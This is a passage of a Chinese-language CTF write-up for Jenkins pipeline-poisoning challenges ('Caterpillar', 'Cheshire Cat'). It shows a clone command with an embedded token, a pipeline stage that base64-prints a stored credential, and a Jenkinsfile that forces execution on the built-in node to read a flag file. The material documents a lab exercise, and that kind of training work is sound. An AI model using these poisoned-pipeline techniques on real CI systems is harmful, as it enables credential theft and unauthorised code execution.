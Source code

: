 该令牌具有存储库的可写权限，使用此令牌clone存储库：

```bash
git clone http://5d3ed5564341d5060c8524c41fe03507e296ca46@127.0.0.1:3000/Wonderland/caterpillar.git
```

然后就是修改成读取flag的pipeline：

```json
stage('deploy') {
    steps {
        withCredentials([usernamePassword(credentialsId: 'flag2', usernameVariable: 'flag2', passwordVariable: 'TOKEN')]) {
            sh 'echo $TOKEN | base64'
        }
    }
}
```

然后push过去就可以执行。

## Cheshire Cat

题目中说All jobs in your victim’s Jenkins instance run on dedicated nodes, but that’s not good enough for you.因此暗示了可能要指定node来执行。考虑到一般是在agent1，因此应该制定在built-in node上执行。

git clone下来之后修改`Jenkinsfile`：

```json
pipeline {
    agent {label 'built-in'}
    environment {
        PROJECT = "sanic"
    }

    stages {

        stage ('Unit Tests') {
            steps {
                sh "cat ~/flag5.txt|base64"
            }
        }
    }

    post {
        always {
            cleanWs()
        }
    }
}
```

指定agent是`built-in`且从文件系统中读取flag。

然后同样的流程直到pull request，获得flag：
